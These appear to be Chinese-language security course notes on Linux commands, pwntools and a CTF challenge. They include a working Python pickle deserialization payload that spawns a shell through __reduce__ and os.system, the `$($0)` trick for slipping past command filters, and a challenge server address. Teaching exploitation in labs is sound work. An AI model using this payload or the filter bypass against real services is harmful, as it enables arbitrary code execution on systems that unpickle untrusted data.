 # Slides
## Linux and System Admin
slides: [Linux_and_SA](Linux_and_SA.pptx)
 * **Linux Common Command**
  * `echo $0`: 印出目前在跑的process名稱
   * 如果是$($0) => $() 開啟shell，$0 => 就是shell！
   * 交大網路安全實務期末互打比賽，每個主機上有可以執行任何command的漏洞，大家都忙著寫script過濾command，據說很多人被```$($0)```打死XD
  * `touch`: create an empty file, `cat file`: print file content to stdout, `nc`: create TCP/UDP connection/listen, `cmd1 | cmd2`: pipe stdout of cmd1 as stdin of cmd2
 * **Kali Linux**：綜合了各種滲透測試工具的作業系統，Ubuntu的好親戚

## Python
slides: [Python](Python.pptx)
 * **Socket**： basic module for TCP/UDP connections
 * **Struct**：把byte包裝成little-endian 或是 big-endian的模組
 * **Pwntools**：有超多好用的工具
  * TCP/UDP connection：只要一行XD 還有interactive module
  * 寫shellcode, working with elf, gdb, memory leak, rop chain, translate assembly to string, ...

# Today's Vulnerable
pickle 是個可以把class serialized 和deserialized 的module，以下程式能叫出shell！
 ```python
  import pickle
  import os
  class Exploit(object):
    def __reduce__(self):
      comm = "sh"
      return (os.system, (comm,))
a = pickle.dumps(Exploit()) # searlized to String
b = pickle.loads(a) # desearlized from String
```
## Remark
 * deserialized回來時，需要告訴python 要怎麼還原回來，而這個還原方法就是在 `__reduce__(self)`裡指定。
=> 也就是，反serialized時會call `__reduce__(self)`
 *  `__reduce__(self)` 回傳的格式：[desearlized_function][argument to desearlized_function]
 => `(os.system, (comm,))` 會desearlized成 `os.system("sh")`，***calling shell***!

# Get the Flag
1. [Pickle](Pickle)
 * server： `nc 140.113.194.85 49167`
 * [server code](Pickle/spam.py)
 * Hint: pickle vulnerable
